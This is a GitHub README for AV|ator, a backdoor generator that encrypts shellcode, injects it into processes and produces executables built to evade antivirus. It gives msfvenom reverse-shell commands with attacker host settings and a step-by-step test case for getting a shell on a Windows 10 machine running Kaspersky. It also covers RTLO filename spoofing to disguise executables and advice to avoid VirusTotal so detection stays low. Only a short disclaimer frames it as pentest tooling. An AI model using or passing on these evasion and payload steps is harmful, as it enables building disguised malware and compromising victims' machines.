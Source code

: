 ### DO NOT UPLOAD ANY SAMPLES TO VIRUS TOTAL ...as I did it one time for you

*Current Detection Rate*: 3/71

SHA-256	e6a5299d4c081140a563ff5a64a94f1543480efeb78d5036f703004d64b4bed2

File name	t9jkoek.exe

File size	15.5 KB

Last analysis	2019-04-29 08:26:13 UTC

![Screenshot 2019-04-29 at 11 33 11](https://user-images.githubusercontent.com/4659186/56884557-d9899800-6a72-11e9-8bb5-95872da1407d.png)

# AV|ator

AV|ator is a backdoor generator utility, which uses cryptographic and injection techniques in order to bypass AV detection. More specifically:
- It uses AES encryption in order to encrypt a given shellcode 
- Generates an executable file which contains the encrypted payload
- The shellcode is decrypted and injected to the target system using various injection techniques 

[https://attack.mitre.org/techniques/T1055/]:

1. Portable executable injection which involves writing malicious code directly into the process (without a file on disk) then invoking execution with either additional code or by creating a remote thread. The displacement of the injected code introduces the additional requirement for functionality to remap memory references. Variations of this method such as reflective DLL injection (writing a self-mapping DLL into a process) and memory module (map DLL when writing into process) overcome the address relocation issue. 

2. Thread execution hijacking which involves injecting malicious code or the path to a DLL into a thread of a process. Similar to Process Hollowing, the thread must first be suspended.

### Usage

The application has a form which consists of three main inputs (See screenshot bellow):

![Screenshot 2019-04-29 at 11 41 21](https://user-images.githubusercontent.com/4659186/56884876-bca19480-6a73-11e9-8bbf-d249c4813e4e.png)


1.	A text containing the encryption key used to encrypt the shellcode 
2.	A text containing the IV used for AES encryption 
3.	A text containing the shellcode 

Important note: The shellcode should be provided as a C# byte array. 

The default values contain shellcode that executes notepad.exe (32bit). This demo is provided as an indication of how the code should be formed (using msfvenom, this can be easily done with the -f csharp switch, e.g. msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X  LPORT=XXXX -f csharp). 

After filling the provided inputs and selecting the output path an executable is generated according to the chosen options. 

### RTLO option

In simple words, spoof an executable file to look like having an "innocent" extention like 'pdf', 'txt' etc. 
E.g. the file "testcod.exe" will be interpreted as "tesexe.doc" 

Beware of the fact that some AVs alert the spoof by its own as a malware. 

### Set custom icon

I guess you all know what it is :)

### Bypassing Kaspersky AV on a Win 10 x64 host (TEST CASE) 

Getting a shell in a windows 10 machine running fully updated kaspersky AV 

#### Target Machine: Windows 10 x64 

1. Create the payload using msfvenom 

    msfvenom -p windows/x64/shell/reverse_tcp_rc4 LHOST=10.0.2.15 LPORT=443 EXITFUNC=thread RC4PASSWORD=S3cr3TP4ssw0rd -f csharp

2. Use AVIator with the following settings

    Target OS architecture: x64

    Injection Technique: Thread Hijacking (Shellcode Arch: x64, OS arch: x64) 

    Target procedure: explorer (leave the default)

3. Set the listener on the attacker machine

4. Run the generated exe on the victim machine



### Installation

**Windows:**

Either compile the project or download the allready compiled executable from the following folder:

https://github.com/Ch0pin/AVIator/tree/master/Compiled%20Binaries

**Linux:**

Install Mono according to your linux distribution, download and run the binaries

e.g. in kali:

root@kali# apt install mono-devel 

root@kali# mono aviator.exe


### Credits
To Damon Mohammadbagher for the encryption procedure

### Disclaimer 

I developed this app in order to overcome the demanding challenges of the pentest procedure and this is the only way that the app should be used. Make sure that you have the required permission to use it against a system and never use it for illegal purposes. 
I would suggest to avoid testing the executables on solutions like virus total e.t.c. If you want to use the application for pentesting purposes I am sure you have already identified the AV used by your target, so go download a demo and make your testing offline. 


